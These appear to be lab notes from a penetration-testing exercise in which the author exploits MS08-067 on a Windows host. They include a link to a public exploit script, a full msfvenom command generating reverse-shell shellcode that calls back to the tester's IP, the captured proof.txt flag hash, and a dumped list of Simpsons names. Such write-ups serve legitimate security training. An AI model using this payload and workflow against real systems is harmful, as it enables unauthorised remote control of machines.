

Summary:
already knew it was vulnerable to MS08-067 from smb nse script
tried for hours to modify exploit and finally got it
https://github.com/ohnozzy/Exploit/blob/master/MS08_067.py
Modified shellcode with:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.187 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -n 32 -f python
Had to use -n 32 to get it to match the size of the payload in the example


type proof.txt
257ea6949c88af6e0b160805b34fdab5

C:\share\New Folder (4)>type tv.txt
type tv.txt
Cletus Spuckler
Homer Simpson
Dave Shutton
Ned Flanders
Bleeding Gums Murphy
Jodie Foster
Elizabeth Taylor
Frankie the Squealer
Legs and Louie
Patches and Poor Violet
Poochie
Sherri and Terri
Russi Taylor
Comic Book Guy
Sideshow Mel
Charlie
Dolph
Krusty the Clown
Gábor Csupó
Kearney Zzyzwicz
Superintendent Gary Chalmers
Herman Hermann
The Rich Texan
Old Jewish Man
Brandine Spuckler
Mona Simpson
Rabbi Hyman Krustofski
Bumblebee Man
Groundskeeper Willie
Üter
Sanjay Nahasapeemapetilon
Ruth Powers
Aristotle Amadopolis
Lunchlady Doris
Declan Desmond
Barney Gumble
Chief Clancy Wiggum
Judge Constance Harm
Current look: "The Homer They Fall"
Fat Tony
Nancy Cartwright
Mr. Teeny
James Earl Jones
Captain Lance Murdock
Radioactive Man
Disco Stu
Princess Kashmir
Selma Bouvier
Ms. Albright
Duffman
Eddie and Lou
Elizabeth Hoover
Kent Brockman
Sideshow Bob
Cecil Terwilliger
Bart Simpson
Allison Taylor
Chase
Roger Meyers, Jr.
Lenny Leonard
Jasper Beardly
Rod Flanders
Snowball
Lionel Hutz
Lewis
Blue Haired Lawyer
Richard
Dr. J. Loren Pryor
Hans Moleman
Lisa Simpson
Martin Prince
Yeardley Smith
Judge Roy Snyder
Ling Bouvier
Leopold
Mary Bailey
Jimbo Jones
Cookie Kwan
Boobarella
Moe Szyslak
Mr. Costington
Waylon Smithers
Ginger Flanders
Marge Simpson
Gino
Snake Jailbird
Manjula Nahasapeemapetilon
The Happy Little Elves
Reverend Timothy Lovejoy
Patty Bouvier
Milhouse Van Houten
Arnie Pye
Sarah Wiggum
Dr. Julius Hibbert
Lois Pennycandy
Baby Gerald
Helen Lovejoy
Dr. Nick Riviera
Drederick Tatum
Bill and Marty
Herbert Powell
Grampa Abraham Simpson
Gil Gunderson
Rachel Jordan
Ralph Wiggum
Crazy Cat Lady
Birchibald "Birch" T. Barlow
Blinky
Kirk Van Houten
Coach Lugash
Francesca
Dr. Marvin Monroe
Capital City Goofball
Lindsey Naegle
Atkins, State Comptroller
Artie Ziff
Mayor "Diamond Joe" Quimby
Wiseguy
Old Barber
Benjamin, Doug, and Gary
Bernice Hibbert
Agnes Skinner
Rainier Wolfcastle
Principal Seymour Skinner
Jacqueline Bouvier
Nelson Muntz
Jacques
Maggie Simpson
Lurleen Lumpkin
Gloria
Carl Carlson
Maude Flanders
Luann Van Houten
Santa's Little Helper
Johnny Tightlips
Dr. Velimirovic
Akira
Edna Krabappel
Janey Powell
Yes Guy
Otto Mann
Amber Simpson
Itchy & Scratchy
Charles Montgomery "Monty" Burns
Wendell Borton
Luigi
Professor John Frink
Troy McClure
Jebediah Springfield
Harry Shearer
Todd Flanders
Ernst and Gunter
Dewey Largo
Nancy Cartwright
Mrs. Glick
Apu Nahasapeemapetilon
Scott Christian
Squeaky-Voiced Teen
Veterinarian
Captain Horatio McCallister
Kang and Kodos


Nothing in the wwwroot, mailroot, or ftproot. Dir command takes forever and freezes when trying to see what is in AdminScripts.